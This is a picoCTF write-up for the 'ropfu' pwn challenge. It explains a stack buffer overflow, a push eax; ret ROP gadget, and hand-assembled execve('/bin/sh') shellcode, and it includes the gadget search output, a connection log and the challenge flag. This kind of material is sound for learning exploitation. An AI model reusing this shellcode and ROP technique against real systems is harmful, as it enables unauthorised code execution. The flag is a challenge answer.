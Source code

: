 # ropfu

ROP to asm shellcode, Syscall

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

PIE is not enabled, so our ROP chain does not change per runtime. 

The canary is not present in the `vuln` function. 

We can return to our own shellcode in our input buffer because the stack is executable. 

## Resources for making syscalls with x86 (32-bit) asm opcodes

- [Passing parameters to x86 syscalls](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux)
- [x86 Syscall Reference](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
- [x86 Opcode Reference](http://ref.x86asm.net/coder32.html)
- [Online x86 Assembler](https://defuse.ca/online-x86-assembler.htm)

## Concept

The concept of the exploit is to exploit the buffer overflow in  `vuln` to use a ROP gadget to jump to shellcode on the stack (written in the buffer) that starts a shell. 

The shellcode sets up the required registers to perform a syscall to `execve` with the first argument being "/bin/sh". 

## How to ROP to Shellcode?

Due to ASLR of the stack, we are unable to overwrite the return address with a static value (which would've been the start address of the buffer). 

Thankfully, the address of `buf` gets returned (i.e. stored in `eax`)

```c
void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);
}
```

We can thus use a single ROP gadget to push `eax` onto the stack such that on ret, that value is loaded into `eip`. 

### ROP chain

- Gadget 1: Push eax
- Value 1: 11

Value 1 exists because we are popping `eax` off the stack to set it to our desired value (of 11). See [API requirements for `execve('/bin/sh)`](#api-requirements-for-execvebinsh). 

Gadget can be found with `xgadget`

```bash
(Linux_Pwn_Venv) asdiml@DESKTOP-XXXXXX:/mnt/d/CTFs/picoCTF/Pwn/ropfu$ xgadget vuln | grep 'push eax; ret'
0x000000080b06d7: add al, 0x8b; inc eax; push eax; ret;
0x000000080b06d9: inc eax; push eax; ret;
0x000000080b06da: push eax; ret;
```

## API Requirements for `execve('/bin/sh')`

Based on [this reference about passing parameters to x86 syscalls](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux), [this x86 Syscall Reference](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) and [this StackOverflow post](https://stackoverflow.com/questions/36673765/why-can-the-execve-system-call-run-bin-sh-without-any-argv-arguments-but-not), we need

1. `eax` = 11
2. `ebx` to contain a pointer to a `/bin/sh` string
3. `ecx` to contain a null pointer, and 
4. `edx` to contain a null pointer. 

Note that `execve` technically requires `ecx` and `edx` to both point to arrays of char pointers, as [documented](https://man7.org/linux/man-pages/man2/execve.2.html), but the exploit works so it seems to be that `execve` can run /bin/sh even with those arguments as null pointers (probably due to checks in the source of `execve`). 

### Acceptance of Arbitrary `edx`

In fact, even if `edx` is not set, the exploit still runs. This is corroborated by [this writeup](https://nickcano.com/csaw-shell-p-code/), albeit of a different shellcode exploit but one that still involves running `execve("/bin/sh")`. 

## Shellcode

```x86asm
0:  58                  pop    eax
1:  89 e3               mov    ebx,esp
3:  83 eb 10            sub    ebx,0x10  ; Load /bin/sh -> ebx
6:  31 C9               xor    ecx,ecx
8:  31 D2               xor    edx,edx
a:  CD 80               int    80h
```

We can figure out that our injected "/bin/sh" string is at `esp-16` at that point with some poking around in gdb. 

Shellcode can be generated from an [online x86 assembler](https://defuse.ca/online-x86-assembler.htm#disassembly). Alternatively, you can look into an [x86 Opcode Reference](http://ref.x86asm.net/coder32.html). These are both mentioned in the [resources](#resources-for-making-syscalls-with-x86-32-bit-asm-opcodes) section. 

## Flag

```
[+] Opening connection to saturn.picoctf.net on port 60525: Done
[*] Loaded 77 cached gadgets for './vuln'
0x0000:        0x80b06da
[*] Switching to interactive mode
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_4c812975}
```

## Automation

The assembled `pwnlib.shellcraft.i386.linux.sh()` payload is 44 bytes long while we only have 28 bytes before the retaddr, so there was a need to use 

```
pwnlib.shellcraft.i386.linux.syscalls.execve('/bin/sh', 0, 0)
```

which is exactly 28 bytes long (when assembled). However, this is still causes problems because pushes onto the stack (to place b'/bin/sh\x00') overwrite instructions. 

> Specifically, `esp` pointed to the address 32 bytes above the start of the buffer. Thus with two pushes, we are already overwriting our shellcode. 

I personally felt that at this point the time spent attempting to automate the solve exceeded the amount of time that could possibly have been saved using automation, so I read [this writeup](https://medium.com/@valsamaramalamatenia/picoctf-ropfu-beginners-guide-eb7af08567b5). 

It turns out that we can just use a NOP slide and short jump to get `eip` past the return address portion of the payload before the shellcode (of basically any arbitrary size) to start a shell can start. 
